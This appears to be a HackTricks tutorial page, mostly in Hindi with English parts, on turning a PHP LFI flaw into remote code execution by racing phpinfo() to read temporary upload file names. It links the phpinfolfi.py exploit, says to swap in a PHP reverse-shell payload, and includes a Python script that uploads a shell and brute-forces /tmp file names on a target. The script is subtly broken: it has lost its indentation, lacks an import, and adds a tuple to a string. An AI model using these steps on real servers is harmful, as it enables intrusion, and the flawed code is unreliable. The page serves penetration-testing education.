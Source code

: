 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Get a hacker's perspective on your web apps, network, and cloud

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}


To exploit this vulnerability you need: **एक LFI भेद्यता, एक पृष्ठ जहाँ phpinfo() प्रदर्शित होता है, "file\_uploads = on" और सर्वर को "/tmp" निर्देशिका में लिखने में सक्षम होना चाहिए।**

[https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

**Tutorial HTB**: [https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s)

You need to fix the exploit (change **=>** for **=>**). To do so you can do:
```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```
You have to change also the **payload** at the beginning of the exploit (for a php-rev-shell for example), the **REQ1** (this should point to the phpinfo page and should have the padding included, i.e.: _REQ1="""POST /install.php?mode=phpinfo\&a="""+padding+""" HTTP/1.1_), and **LFIREQ** (this should point to the LFI vulnerability, i.e.: _LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r --_ Check the double "%" when exploiting null char)

{% file src="../../.gitbook/assets/LFI-With-PHPInfo-Assistance.pdf" %}

### सिद्धांत

यदि PHP में अपलोड की अनुमति है और आप एक फ़ाइल अपलोड करने की कोशिश करते हैं, तो यह फ़ाइल एक अस्थायी निर्देशिका में संग्रहीत होती है जब तक कि सर्वर अनुरोध को संसाधित नहीं कर लेता, फिर यह अस्थायी फ़ाइल हटा दी जाती है।

फिर, यदि आपने वेब सर्वर में LFI भेद्यता पाई है, तो आप अस्थायी फ़ाइल के नाम का अनुमान लगाने की कोशिश कर सकते हैं और इसे हटाए जाने से पहले अस्थायी फ़ाइल तक पहुँचकर RCE का शोषण कर सकते हैं।

**Windows** में फ़ाइलें आमतौर पर **C:\Windows\temp\php** में संग्रहीत होती हैं।

**linux** में फ़ाइल का नाम आमतौर पर **random** होता है और यह **/tmp** में स्थित होता है। चूंकि नाम यादृच्छिक है, इसलिए **अस्थायी फ़ाइल के नाम को कहीं से निकालना आवश्यक है** और इसे हटाए जाने से पहले एक्सेस करना आवश्यक है। यह **phpconfig()** फ़ंक्शन की सामग्री के भीतर **variable $\_FILES** के मान को पढ़कर किया जा सकता है।

**phpinfo()**

**PHP** एक **4096B** का बफर का उपयोग करता है और जब यह **पूर्ण** होता है, तो इसे **क्लाइंट को भेजा जाता है**। फिर क्लाइंट **कई बड़े अनुरोध भेज सकता है** (बड़े हेडर का उपयोग करते हुए) **एक php** रिवर्स **शेल अपलोड करते हुए**, **phpinfo() के पहले भाग के लौटने का इंतजार करें** (जहां अस्थायी फ़ाइल का नाम है) और LFI भेद्यता का शोषण करते हुए php सर्वर द्वारा फ़ाइल हटाए जाने से पहले **अस्थायी फ़ाइल तक पहुँचने की कोशिश करें**।

**Python स्क्रिप्ट नाम को ब्रूटफोर्स करने के लिए (यदि लंबाई = 6)**
```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
url = 'http://target.com/index.php?c=/tmp/php' + fname
r = requests.get(url)
if 'load average' in r.text:  # <?php echo system('uptime');
print('[+] We have got a shell: ' + url)
sys.exit(0)

print('[x] Something went wrong, please try again')
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### अपने वेब ऐप्स, नेटवर्क और क्लाउड पर एक हैकर का दृष्टिकोण प्राप्त करें

**महत्वपूर्ण, शोषण योग्य कमजोरियों को खोजें और रिपोर्ट करें जो वास्तविक व्यापार प्रभाव डालती हैं।** हमारे 20+ कस्टम टूल का उपयोग करके हमले की सतह का मानचित्रण करें, सुरक्षा मुद्दों को खोजें जो आपको विशेषाधिकार बढ़ाने की अनुमति देते हैं, और आवश्यक सबूत इकट्ठा करने के लिए स्वचालित शोषण का उपयोग करें, जिससे आपका कठिन काम प्रभावशाली रिपोर्टों में बदल जाए।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें **फॉलो** करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें। 

</details>
{% endhint %}
